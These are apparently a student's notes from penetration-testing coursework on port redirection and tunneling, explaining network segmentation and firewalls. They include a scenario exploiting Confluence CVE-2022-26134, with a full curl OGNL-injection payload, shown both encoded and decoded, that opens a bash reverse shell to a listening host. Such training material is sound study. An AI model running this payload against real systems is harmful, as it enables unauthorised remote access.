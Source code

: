Why Port Redirection and Tunneling

Most network environments are not flat

more securely designed network is segmented (principle of least privilege)

subnets contain a group of devices that have a specific purpose, and devices on the subnet are only granted access to other subnets and hosts when necessary.

most admins will also implement controls that limit the flow of traffic

most common technologies is Firewalls
Linux iptable
Windows Defender Firewall

Firewall drop unwanted inbound packets and prevent malicious traffic and traversing or leaving the network

Most firewalls tend to allow or block traffic in line with rule based IP addresses and portnumber play book

Deep Packet Inspection monitors the contents of incoming and outgoing traffic and terminates based on another set of rules

Port redirection and tunneling are strategies we can use to traverse bounds

Port redirection mods the data flow by redirecting packets from one socket to another

Tunneling means encapsulating one type of data stream with another:
transporting HTTP within SSH so from the outside SSH will only be visible


Port Forwarding with Linux Tools

A Simple Scenario

suppose during assessment, linux web server is found to be running Confluence: CVE-2022-26134 -> pre auth remote code exe

server has 2 network interface, one attached to the network our machine is on, the other on an internal subnet

in the config we also find credentials and IP + Port for a PostgreSQL

WAN -> DMZ -> PostgreSQL


CVE-2022-26134 -> POC payload:
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/

verbose curl is being made to target, with URL encoded:
Hint: URL decode string by selecting Decode As > URL in the Decoder tab in burp

/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/

a std::tcp reverse shell which we can capture with nc

URL path is OGNL injection payload, Object-Graph Notation Language
